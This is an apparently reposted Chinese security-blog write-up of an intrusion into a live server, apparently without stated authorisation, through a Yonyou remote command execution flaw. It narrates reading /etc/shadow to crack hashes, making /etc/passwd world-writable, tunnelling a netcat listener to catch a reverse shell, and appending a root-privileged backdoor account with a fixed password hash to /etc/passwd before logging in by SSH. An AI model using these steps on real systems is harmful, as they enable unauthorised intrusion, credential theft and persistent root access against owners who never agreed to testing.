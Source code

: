 #  渗透测试 | 一次实战远程命令执行漏洞并提权   
巡安似海  LemonSec   2024-04-27 10:27  
  
前言  
  
某站用友的命令执行漏洞，测试  
print hello  
发现可以执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyqG4KDjn6IAgCX2IIxqibbD6RV9ibFXdZrGorSnCbXTmBaTzMFOmBBvbg/640?wx_fmt=png&wxfrom=13&wx_lazy=1&wx_co=1&random=0.8231446243587741&tp=wxpic "")  
  
whami  
   
和  
id  
   
都查一波权限，发现是  
root  
，  
权限这么大，很好搞啊  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyldCBdvxYn07tvVQGx4thqEnQPqhMCEtrvVDoDZ125rImfwFl4oAaSg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.45994894042806056&tp=wxpic "")  
  
ps -ef|grep sshd  
   
查一波 发现可以ssh连接，直接u  
seradd   
用户，但是整个shell无法给用户添加密码，无法远程登录，怎么搞，直接读  
shadow  
  
哈希，爆破密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMy6j1atDibKeQdq9T7Mz1I7yfmic0SGfvnwlvHawhvMkgVAFrLiaNNrsAxQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.00965948658987692&tp=wxpic "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyCmr2J84JSvoQvBibNddY3JVTiaqqzR5jL3DaHPiappOGm9DQKTPB9ub6A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.5451797229887057&tp=wxpic "")  
  
爆破无结果，头大，怎么搞，思考5分钟，可以直接写  
passwd  
啊，试一波  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMye6fhlEPBQsEETTsojMqKeJ3KHv6KWQPy8NicxLBvicrVoBtt1icazuZXA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.2425838373316298&tp=wxpic "")  
  
再次查看  
shadow  
   
居然没写进去，难道权限不对，  
ls -alrt /etc/passwd  
 发  
现权限是544 ，直接  
chmod 777 /etc/passwd  
   
改权限，继续写，依然写不进去，换了各种姿势，都不行，难住我了，突然想起了nc反弹，一般linux都装有nc，这个有没有，查一波  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyd8JTFCUTJarubKsNonOu7pibo3QWBuwj5KsecmU3ZZdxHicbToTRyaYw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.9417857250984469&tp=wxpic "")  
  
果然不错，有  
nc  
，通过  
dnslog  
查一下是否有外连  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMydZOTtjGHIvg0tKL6bHQ31CYfkZkRSsDCo0FGvc4s7xn5Ew31uLOpFw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.6301922119837862&tp=wxpic "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMykrFsYiahNUQuADj71bPOb345TXhSPYZlLXvdtJHFEgribIv76nXjlWpw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.28574277154030203&tp=wxpic "")  
  
能ping通，果然能外连，那就可以通过nc反弹搞一波了，本地的攻击机在内网，内网穿透一波  
  
我一般用  
https://www.uulap.com/  
   
大家可以试试  
  
将本地的  
6666  
端  
口映射到公网  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMykhYamKW3TlE4ZcIpF3GjIibEqyapSl0ltK9VSgTtXJ8OB98c3Zu8aMA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.36264010735562846&tp=wxpic "")  
  
本地建立监听  
   
nc -l -n -v -p 6666  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMypBqKoy2FLNThYPJrb4RfPR6KplR9Lanyf1icwmsptsdT7z1A4uFA7Zg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.21385063384772662&tp=wxpic "")  
  
让目标机进行  
nc  
反弹  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyfprONAElura7BT2Lbb9CywEvyibricoXIzy7RawcvvjMxvn9ia13pYWrg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.09037679307547042&tp=wxpic "")  
  
果然反弹回来了，直接上命令，加用户  
  
echo ‘用户名:LRxM3nP3LOiYU:0:0:hello:/root:/bin/bash’ >> /etc/passwd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMytzuKVuySXu2WE9Q1tGE3LjfxHFu4x1KV6aCxxHbcovaxllZXg9xOzQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.5153764050694547&tp=wxpic "")  
  
查看已经添加成功![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMy0BPASlnNjDicX7D5ao5RCeMde7SbWbiapBqVIdSANfONXehnHoSvjXcQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.8254996871671909&tp=wxpic "")  
  
  
直接ssh连接，发  
现是阿里云的服务器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RUnwTiclM237WLv3FDbtZTNANyoFEopMyQLiaErs1QuRSnwFbsrAZkOoCpDhHVF2eu1ZX6ntiaWmXHliaDTsw5gpQQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.6794011580374526&tp=wxpic "")  
  
至此结束收工！  
  
文章转自  
巡安似海  
  
**侵权请私聊公众号删文**  
  
  
 **热文推荐******  
  
- [蓝队应急响应姿势之Linux](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523380&idx=1&sn=27acf248b4bbce96e2e40e193b32f0c9&chksm=f9e3f36fce947a79b416e30442009c3de226d98422bd0fb8cbcc54a66c303ab99b4d3f9bbb05&scene=21#wechat_redirect)  
  
  
- [通过DNSLOG回显验证漏洞](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523485&idx=1&sn=2825827e55c1c9264041744a00688caf&chksm=f9e3f3c6ce947ad0c129566e5952ac23c990cf0428704df1a51526d8db6adbc47f998ee96eb4&scene=21#wechat_redirect)  
  
  
- [记一次服务器被种挖矿溯源](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523441&idx=2&sn=94c6fae1f131c991d82263cb6a8c820b&chksm=f9e3f32ace947a3cdae52cf4cdfc9169ecf2b801f6b0fc2312801d73846d28b36d4ba47cb671&scene=21#wechat_redirect)  
  
  
- [内网渗透初探 | 小白简单学习内网渗透](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523346&idx=1&sn=4bf01626aa7457c9f9255dc088a738b4&chksm=f9e3f349ce947a5f934329a78177b9ce85e625a36039008eead2fe35cbad5e96a991569d0b80&scene=21#wechat_redirect)  
  
  
- [实战|通过恶意 pdf 执行 xss 漏洞](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523274&idx=1&sn=89290e2b7a8e408ff62a657ef71c8594&chksm=f9e3f491ce947d8702eda190e8d4f7ea2e3721549c27a2f768c3256de170f1fd0c99e817e0fb&scene=21#wechat_redirect)  
  
  
- [免杀技术有一套（免杀方法大集结）(Anti-AntiVirus)](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523189&idx=1&sn=44ea2c9a59a07847e1efb1da01583883&chksm=f9e3f42ece947d3890eb74e4d5fc60364710b83bd4669344a74c630ac78f689b1248a2208082&scene=21#wechat_redirect)  
  
  
- [内网渗透之内网信息查看常用命令](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522979&idx=1&sn=894ac98a85ae7e23312b0188b8784278&chksm=f9e3f5f8ce947cee823a62ae4db34270510cc64772ed8314febf177a7660de08c36bedab6267&scene=21#wechat_redirect)  
  
  
- [关于漏洞的基础知识](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523083&idx=2&sn=0b162aba30063a4073bad24269a8dc0e&chksm=f9e3f450ce947d4699dfebf0a60a2dade481d8baf5f782350c2125ad6a320f91a2854d027e85&scene=21#wechat_redirect)  
  
  
- [任意账号密码重置的6种方法](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522927&idx=1&sn=075ccdb91ae67b7ad2a771aa1d6b43f3&chksm=f9e3f534ce947c220664a938bc42926bee3ca8d07c6e3129795d7c8977948f060b08c0f89739&scene=21#wechat_redirect)  
  
  
- [干货 | 横向移动与域控权限维持方法总汇](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522810&idx=2&sn=ed65a8c60c45f9af598178ed20c89896&chksm=f9e3f6a1ce947fb710ff77d8fbd721220b16673953b30eba6b10ad6e86924f6b4b9b2a983e74&scene=21#wechat_redirect)  
  
  
- [手把手教你Linux提权](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522500&idx=2&sn=ec74a21ef0a872f7486ccac6772e0b9a&chksm=f9e3f79fce947e89eac9d9077eee8ce74f3ab35a345b1c2194d11b77d5b522be3b269b326ebf&scene=21#wechat_redirect)  
  
  
  
  
  
**欢迎关注LemonSec**  
  
  
**觉得不错点个“赞”、“在看”**  
  

